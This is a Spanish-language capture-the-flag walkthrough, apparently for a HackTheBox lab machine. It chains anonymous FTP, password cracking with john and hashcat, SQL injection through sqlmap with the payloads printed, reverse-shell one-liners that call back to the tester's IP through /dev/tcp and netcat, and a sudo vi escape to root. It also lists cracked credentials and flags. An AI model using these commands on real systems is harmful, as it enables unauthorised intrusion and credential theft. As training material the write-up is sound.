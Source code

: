 ### nmap
```python
nmap -sVC 10.129.66.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 16:29 EDT
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 28.95% done; ETC: 16:29 (0:00:20 remaining)
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 77.37% done; ETC: 16:29 (0:00:06 remaining)
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 16:30 (0:00:03 remaining)
Nmap scan report for 10.129.66.130
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.157
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

###### Podemos ver que el puerto 21 esta corriendo el servicio ftp el cual esta configurado por defecto como anonymous
# ftp
```python
ftp 10.129.66.130
Connected to 10.129.66.130.
220 (vsFTPd 3.0.3)
Name (10.129.66.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10423|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

##### al entrar nos damos cuenta que existe un archivo backup.zip el cual descargaremos usando `get backup.zip` si hacemos `unzip backup.zip` al intentar descomprimir el archivo nos damos cuenta que esta cifrado por lo que usaremos `john the ripper con la opcion zip2john` 

```python
zip2john backup.zip > backuphash  
```
##### con la opcion `>` cambiamos el nombre para que podamos ver el hash de la contraseña, ahora le hacemos un `cat` para ver si tenemos el hash y si todo esta correcto le pasamos el john 

```python
john -wordlist=/usr/share/wordlists/rockyou.txt backuphash

--Passw: 741852963
```

![[2023-10-11_17-11.png]]

#### conseguimos dos archivos: `index.php` `style.css` el index.php se ve prometedor asi que le hacemos un `cat`

![[2023-10-11_17-21.png]]
#### conseguimos lo que parece ser una contraseña que esta codificada en otro hash. entonces usaremos hashid para intentar saber que tipo de hash es 

```python
:hashid 2cb42f8734ea607eefed3b70af13bbd3
```
![[2023-10-11_17-42.png]]

#### Podriamos probar con MD2 - MD5 y MD4 que son los mas comunes. para esto usaremos `hashcat`

```python
hashcat -a 0 -m 0 passwhash /usr/share/wordlists/rockyou.txt
```
![[2023-10-11_17-53.png]]

#### Bueno nos guardamos la contraseña probaremos entrar en la direccion web ya que en el reconocimiento nmap nos damos cuenta que tambien tiene el puerto 80 abierto

![[2023-10-11_18-14.png]]

#### iniciamos con las credenciales que hemos conseguido
```python
--admin
--qwerty789
```

![[2023-10-11_18-48.png]]

#### logramos entrar y haciendo unas pruebas rapidas parece que la pag esta conectada a la base de datos y es vulnerable a SQLI. 

```python
como podemos saber si es vulnebrable a SQLI. en el buscador ponemos una comilla simple ` y damos enter y vemos que aparece un error. esto se debe a que la pag esta leyendo la comilla como si fuera un caracter alfa numerico y no como un caracter especial como deberia ser
```
para verificar esto usaremos `sqlmap`
```python
sqlmap -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg"

-u para indicar la url de la pag 
--cookie para indicar la cookie de session 

si hacemos sqlmap -h se abre el panel de ayuda y podemos ver que el comando --current-db nos enumera la base de datos actual en la que estamos asi que usaremos ese 

tambien podemos ver que existe uno llamado --batch para que realice todas las acciones por defecto sin pregunytarnos nada. asi que el comando nos queda de la sigiente manera: 
------------------------------------------------------
sqlmap --current-db -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
------------------------------------------------------
```

#### Podemos ver que el resultado:
![[2023-10-11_19-11.png]]

#### Podemos notar que existen 4 tipos de inyecciones SQLI y que el nombre de la base de datos es public

```python
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (1509=1509) THEN NULL ELSE CAST((CHR(101)||CHR(86)||CHR(75)||CHR(74)) AS NUMERIC) END)) IS NULL-- nIOk

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 2166=CAST((CHR(113)||CHR(122)||CHR(118)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (2166=2166) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(107)||CHR(113)||CHR(113)) AS NUMERIC)-- NgJP

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 7512=(SELECT 7512 FROM PG_SLEEP(5))-- tfIZ
```

#### ahora que sabemos el nombre de la base de datos podemos enumerarla usando el mismo comando sqlmap con una pequeña variante: 
```python
sqlmap -D public --tables -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```
conseguimos una tabla llamada cars asi que buscaremos esa tabla con el siguiente comando
```python
sqlmap -D public -T cars --culumns -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[2023-10-11_19-25.png]]

#### podemos ver algunas columnas pero si nos fijamos podemos ver que son las mismas que salen ena la pagina web asi que mejor seguimos buascando en sqlmap y podemos encontar la opcion `--os-shell` asi que lo usaremos en nuestro codigo.

```python
sqlmap --os-shell -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[2023-10-11_19-35.png]]

#### de esta manera hemos conseguido una shell interactiva. pero esta shell esta un poco limitada asi que podemos intentar enviarnos una reverse shell a nuestro equipo para poder interactuar de mejor manera.

```python
sh -i >& /dev/tcp/10.10.15.157/8001 0>&1
```

```python
bash -c 'bash -i >& /dev/tcp/10.10.15.157/8001 0>&1'
```

#### con esta bash notamos que perdemos coneccion. asi que usaremos una enviada por netcat para intentar resolver esto.

```python
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```

### despues de esto hacemos tratamiento tty y empezamos a examinar la maquina.
user.txt
```python
ec9b13ca4d6229cd5cc1e09980965bf7
```

#### vamos a navegar hasta el directorio donde esta alojada la base de datos
passid:
```python
2cb42f8734ea607eefed3b70af13bbd3
```
db:id
```python
user: postgres
password: P@s5w0rd!
```

#### con estas credenciales podriamos intentar entrar via ssh

hacemos sudo -l para saber cuales son los permiso que tiene el usuario postgres como administrador 

```python
/bin/vi /etc/postgresql/11/main/pg_hba.config`
```

vemos que tiene permisos solo en este archivo asi que lo ejecutaremos como administrador 
```python
sudo /bin/vi /etc/postgresql/11/main/pg_hba.config
```

abrimos el archivo, y le decimos que nos de una shell y presionamos enter. 
automaticamente seremos root

root.txt
```css
dd6e058e814260bc70e9bbdef2715849
```

